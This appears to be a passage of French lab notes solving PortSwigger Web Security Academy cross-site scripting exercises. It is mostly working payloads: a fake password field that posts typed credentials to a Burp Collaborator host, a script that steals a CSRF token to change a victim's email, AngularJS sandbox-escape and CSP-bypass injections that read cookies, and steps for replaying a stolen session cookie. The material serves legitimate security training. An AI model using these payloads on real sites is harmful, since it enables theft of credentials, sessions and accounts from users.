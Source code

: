 Le cookie arrive dans Collaborator => Requête HTTP => Request to Collaborator

Reprendre la ligne du cookie et l'ajouter dans la requête vers la page /my-account que l'on aura au préalable envoyée sur le Repeater.

### Exploiting cross-site scripting to capture passwords

Aller sur n'importe quel post du site et mettre un commentaire avec le payload suivant :

    <input name=username id=username>
    <input type=password name=password onchange="if(this.value.length)fetch('https://q2tvkl5p1jxsr2xxivm9q9w0oruii86x.oastify.com',{
    method:'POST',
    mode: 'no-cors',
    body:username.value+':'+this.value
    });">
    
Récupérer les identifiants dans le Collaborator.

### Exploiting XSS to perform CSRF

Aller sur n'importe quel post du site et mettre un commentaire avec le payload suivant : 

    <script>
    var req = new XMLHttpRequest();
    req.onload = handleResponse;
    req.open('get','/my-account',true);
    req.send();
    function handleResponse() {
        var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
        var changeReq = new XMLHttpRequest();
        changeReq.open('post', '/my-account/change-email', true);
        changeReq.send('csrf='+token+'&email=test@test.com')
    };
    </script>
    

### (EXPERT) Reflected XSS with AngularJS sandbox escape without strings

    
    ?search=1&toString().constructor.prototype.charAt%3d[].join;[1]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)=1


### (EXPERT) Reflected XSS with AngularJS sandbox escape and CSP

    <script> location='https://0aac00e3037791228023b26900d800bb.web-security-academy.net/?search=%3Cinput%20id=x%20ng-focus=$event.composedPath()|orderBy:%27(z=alert)(document.cookie)%27%3E#x'; </script>


### (EXPERT) Reflected XSS with event handlers and href attributes blocked

https://0a8f002704b50f3e83acec0b00cb0070.web-security-academy.net/?search=%3Csvg%3E%3Ca%3E%3Canimate+attributeName%3Dhref+values%3Djavascript%3Aalert(1)+%2F%3E%3Ctext+x%3D20+y%3D20%3EClick%20me%3C%2Ftext%3E%3C%2Fa%3E
